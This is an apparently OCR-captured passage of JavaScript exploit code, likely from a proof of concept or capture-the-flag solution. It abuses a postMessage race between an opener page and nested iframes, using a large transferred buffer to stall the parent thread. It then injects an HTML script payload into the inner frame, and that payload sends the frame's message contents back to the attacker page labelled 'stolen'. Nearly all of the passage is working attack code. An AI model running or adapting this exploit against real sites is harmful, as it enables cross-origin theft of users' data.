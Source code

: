 ``` html
            const buffer = new Uint8Array(1e7);
            win.location = 'about:blank';
            await new Promise((resolve) => {
                loop.onmessage = () => {
                    try {
                        win.origin;
                        resolve();
                    } catch (e) {
                        loop.postMessage(null);
                    }
                };
                loop.postMessage(null);
            });
            win.location = url;
            await new Promise((resolve) => {
                loop.onmessage = () => {
                    if (win.length === 1) {
                        // Send a huge message so e.data.toString() blocks a thread for a while
                        // By transfering only a reference to memory chunk, sending the message
                        // will be fast enough to race condition window.onmessage and iframe.onload
                        // notify(Date.now(), '==1');
                        win?.postMessage(buffer, '*', [buffer.buffer]);
                        // Once we know the innerIframe loaded, we can now postMessage to it
                        // because it will be rendered in a different process in Chrome, so
                        // the blocked parent thread won't affect rendering the iframe!
                        setTimeout(() => {
                            win[0]?.postMessage(
                                {
                                    body: `LOL! <script>onmessage=async (e)=>{
                      let text = await e.data.body.text();
                      parent.opener.postMessage({stolen: text}, '*');
                    }<\/script>`,
                                    mimeType: "text/html",
                                },
                                "*"
                            );
                            resolve();
                        }, 500);
                    } else {
                        loop.postMessage(null);
                    }
                };
                loop.postMessage(null);
            });
            return 1;
        }
        var TIMEOUT = 1500;
        var win;
        function waitForMessage(url) {
            return new Promise(async resolve => {
                onmessage = e => {
                    if (e.data.stolen) {
                        notify(e.data.stolen);
                        log.innerText += e.data.stolen + '\n';
                        resolve(false);
                    }
                }
                const rnd = 'a' + Math.random().toString(16).slice(2);
                const _url = url + ',' + rnd;
                await load(win, _url);
                setTimeout(() => {
                    resolve(true);
                }, TIMEOUT);
```